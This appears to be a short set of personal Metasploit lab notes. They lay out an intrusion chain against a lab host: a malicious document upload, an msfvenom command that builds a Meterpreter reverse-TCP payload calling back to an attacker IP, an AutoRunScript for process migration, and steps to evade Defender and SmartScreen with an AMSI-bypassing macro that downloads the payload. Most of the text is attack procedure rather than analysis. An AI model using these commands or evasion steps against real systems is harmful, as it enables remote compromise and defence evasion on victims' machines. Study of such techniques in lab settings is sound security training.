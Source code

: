 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript "migrate -n explorer.exe"
```

### Ch1 Notes

1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
